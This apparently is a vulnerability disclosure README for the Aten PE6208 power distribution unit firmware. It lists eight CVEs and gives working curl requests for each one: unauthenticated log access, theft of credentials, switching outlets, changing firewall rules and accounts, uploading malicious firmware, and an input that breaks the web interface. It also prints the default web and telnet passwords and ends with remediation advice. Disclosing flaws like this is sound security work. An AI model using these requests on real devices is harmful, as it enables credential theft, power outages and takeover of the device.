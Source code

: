 # Aten PE6208 vulnerabilities

This repo contains the description of the vulnerabilities identified
in the Aten PE6208 PDU firmware. The exploitation methods described were
tested for versions v2.3.228 and v2.4.232 of the PE6208 firmware. According
to Aten, the vulnerabilities are fixed in the v2.4.239 firmware version.

# The vulnerabilities

## 1. Incorrect Access Control (CVE-2023-43846)
The logs on device can be accessed without authentication via GET request:
```
curl -s -i -k 'https://192.168.0.60/Log_information/Systemlog.csv'
```
The logs contain such information as usernames present on the device
and IP addresses of the device users.

## 2. Incorrect Access Control (CVE-2023-43843)
An attacker provided with a valid unprivileged session ID can read credentials
of all accounts, including privileged ones, via GET request.\
In such case the user management function checks for two exact things:
if the SID provided is valid and if the UID provided is _8_ which is
for the administrator account.\
To exploit the vulnerability, the following GET request may be used:
```
curl -s -i -k 'https://192.168.0.60/xml/accounts.xml?SID=1234567890abcdef&SIndex=0&UID=8
```
The credentials obtained this way may be used to login to the device
web interface or to perform password spraying attacks on the rest
of the infrastructure.

## 3. Incorrect Access Control (CVE-2023-43847)
An attacker provided with a valid unprivileged session ID can control PDU
outlets via POST request.\
In such case the outlet management function checks for two exact things:
if the SID provided is valid and if the UID provided is _8_ which is
for the administrator account.\
The parameters of the outlet management function look like _outcont40X_, where
_X_ is the outlet number. The value could be _0_ or _1_ meaning disable or enable.\
To turn an outlet off the following POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/outlet_access/connections.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'outcont401=0'
```
To turn an outlet on the following POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/outlet_access/connections.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'outcont401=1'
```
Turning an outlet off may result in DoS of systems relying on the PDU.

## 4. Incorrect Access Control (CVE-2023-43848)
An attacker provided with a valid unprivileged session ID can control
the device local firewall rules via POST request.\
For the sake of better undestanding of the request structure, it's fields are
described below.\
The _devsecuflg07_ field is a flag indicating if the firewall is enabled.
If the value is _0_, the firewall is disabled, and otherwise if it's set to _1_.\
During the firewall altering request handling, the IP addresses are grouped by pairs.
The first address in a pair is the starting point of the range and the second is
the ending point of the range. When the range is specified, the firewall excludes
or includes the whole range from or to the addresses allowed on the device.\
The pairs mapping is as follows:
```
'devsecuip00': '0.0.0.0', 'devsecuip05': '0.0.0.0',
'devsecuip01': '0.0.0.0', 'devsecuip06': '0.0.0.0',
'devsecuip02': '0.0.0.0', 'devsecuip07': '0.0.0.0',
'devsecuip03': '0.0.0.0', 'devsecuip08': '0.0.0.0',
'devsecuip04': '0.0.0.0', 'devsecuip09': '0.0.0.0'
```
MAC addresses are handled the same way and the mapping is as follows:
```
'devsecumac00': '000000000000', 'devsecumac01': '000000000000',
'devsecumac02': '000000000000', 'devsecumac03': '000000000000',
'devsecumac04': '000000000000'
```
Finally, to alter the local firewall of the PDU, the following POST request
may be used:
```
curl -s -i -k 'https://192.168.0.60/device_management/security.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'devsecuip01=0.0.0.0&devsecuip06=0.0.0.0'
```
The parameters of the request above may be adapted depending on the result wanted.\
Like in the cases above, the firewall management function checks for two exact
things: if the SID provided is valid and if the UID provided is _8_ which is
for the administrator account.

## 5. Incorrect Access Control (CVE-2023-43842)
An attacker provided with a valid unprivileged session ID can add, remove
or change existing accounts of unprivileged users on the device via POST request.\
The parameters of the user management function look like _uXYZ_.
The _YZ_ is the number reffering to the target user.
The _X_ could be _1_, _2_ or _3_:
- _1_ means the value of the parameter is the username supplied.
- _2_ means the value of the parameter is the password supplied.
- _3_ means the value of the parameter is the action requested.

The action value could be _0_ to remove an account or _1_ to add an account.
If an account already present is to be added, it's just updated with the
credentials supplied.\
To add or update an account with username _user_ and with password _pass_
a POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/user_management/accounts.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'u303=1&u103=test&u203=test&'
```
To remove an account number _03_ a POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/user_management/accounts.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'u303=0&'
```

## 6. Incorrect Access Control (CVE-2023-43849)
The firmware upload process is based on sending payload fragments via POST
requests without any authentication. An attacker can use it to interfere with
a firmware update process like this:
```
curl -s -i -k 'https://192.168.0.60/xml/firmware_upgrade.xml?SID=1234567890abcdef&CheckVersion=0&Name=administrator'
curl -s -i -k 'https://192.168.0.60/maintenance/fwupgrade.cgi' -X POST -d '------WebKitFormBoundary1234567890ABCdef\nContent-Disposition: form-data; name="FWfileName"; filename="payload.bin"\nContent-Type: application/octet-stream\n$FRAGMENT
```
Looped requests like this may be used to upload modified firmware containing
malicious code resulting in fully compromised device.
After such a manipulation a legitimate firmware upload may be not possible.

## 7. Improper Input Validation (CVE-2023-43850)
If an attacker provided with a valid unprivileged session ID adds a user with
a name containing opening angle bracket, a partial DoS of web interface
happens. While such a user is present, administrator can't see list of users
or edit accounts. Also logs are not available for viewing while containing
a record with such a name of user.\
To cause the behavior described, the following POST request may be used:
```
curl -s -i -k 'https://192.168.0.60/user_management/accounts.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'u303=1&u103=<&u203=test&'
```
Since this is a particular case of the account altering, the user management
function still checks for two exact things: if the SID provided is valid
and if the UID provided is _8_ which is for the administrator account.

## 8. Default credentials (CVE-2023-43844, CVE-2023-43845)
The device can be managed via web interface or via telnet. Both methods use
privileged accounts with the default credentials presented below:
```
administrator : password # for web
teladmin : telpwd        # for telnet
```
The user is never forced to change the default credentials.

# Remediation
Since according to Aten the issues are solved in v.2.4.239 firmware version,
to avoid potential risks a customer should update their device firmware
to this version. The firmware is avalaible at the [official site](https://www.aten.com/global/en/products/power-distribution-&-racks/rack-pdu/pe6208/) of Aten
at the _Support and Downloads_ tab.

